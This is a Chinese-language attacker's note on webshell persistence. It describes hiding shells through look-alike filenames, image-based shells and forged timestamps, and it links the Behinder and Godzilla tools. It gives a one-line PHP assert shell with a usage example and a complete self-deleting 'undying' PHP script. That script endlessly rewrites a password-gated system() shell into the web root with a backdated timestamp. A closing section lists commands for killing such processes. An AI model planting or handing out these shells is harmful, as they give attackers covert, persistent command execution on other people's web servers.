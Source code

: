 ```yaml
---
title: 【权限维持】WebShell
---
```

# WebShell
## 隐藏WebShell

> 1、仿照已存在的文件起名字，隐藏在深层目录， 创建…目录隐藏shell
> 2、利用静态文件，比如图片马然后利用 .htaccess 进行解析
> 3、修改WebShell时间戳为同目录下其它文件相同的时间
## 快速应用
直接上冰蝎加密shell，或哥斯拉内存马（基于tomcat）
冰蝎：https://github.com/rebeyond/Behinder
哥斯拉：https://github.com/BeichenDream/Godzilla

## PHP

**文件免杀**（Apache、Nginx特性）cmd

```php
<? assert(implode(reset(get_defined_vars())));	//返回由所有已定义变量所组成的数组    
Use age：cmd.php?a=system(whoami);
适用于PHP < 7.1 ，因为在PHP7.1之后assert被弃用了、7.2 create_function被弃用了
```
**内存马**

```php
//nodie_shell.php
<?php
	set_time_limit(0);			//设置脚本最大执行时间,0 即为无时间限制
	ignore_user_abort(true);	//设置与客户机断开不终止脚本的执行
	unlink(__FILE__);			//删除文件自身
	$file = '/var/www/html/.shell.php';	
	$code = '<?php if(md5($_POST["pass"])=="cdd7b7420654eb16c1e1b748d5b7c5b8"){@system($_POST[a]);}?>';
	while (1) {
		file_put_contents($file, $code);	//写shell文件
		system('touch -m -d "2014-10-31 13:50:11" .shell.php');		//修改时间戳
		usleep(1000);			//以指定的微秒数延缓程序的执行
	}
?>
```

**杀死PHP不死马**

```bash
1、高权限，重启服务
service apache2 restart
service php restart

2、低权限，杀掉所有进程
kill -9 -1
killall apache2
```

## 其它参考
Tomcat无文件Shell： https://github.com/z1Ro0/tomcat_nofile_webshell 


[冰蝎，从入门到魔改](https://mp.weixin.qq.com/s/s_DcLdhEtIZkC2_z0Zz4FQ)

[冰蝎改造之不改动客户端=>内存马](https://mp.weixin.qq.com/s?__biz=MzU2NTc2MjAyNg==&mid=2247484318&idx=1&sn=ece9e52218be0ea84ef166c3bfd20f23&chksm=fcb7811bcbc0080dd2c39f228dcfe069880218b9f354b1283606af680b1eaecdc07a8a43b188&scene=126&sessionid=1596615082&key=4024143df9a90d6cf039e6e552bb5cc12f755fd25a44855e8dfaff85efc30720e50fd9f3299dbb007c78e96c833dc3df98a87f4c4a4e3ccff0084c0ad0325d06a0265851bfa777df7f014bc8d790632f&ascene=1&uin=MTUwNjgwNTkxMA%3D%3D&devicetype=Windows+10+x64&version=62090070&lang=zh_CN&exportkey=AzFdHdxTih44P2kITVRk35s%3D&pass_ticket=lppPNqJhx8ZD573ypwsqgQ41%2F%2BJd%2B2avwvIfBnLfOjeNcQkihuzk3CgS%2F36Je%2Bnb)
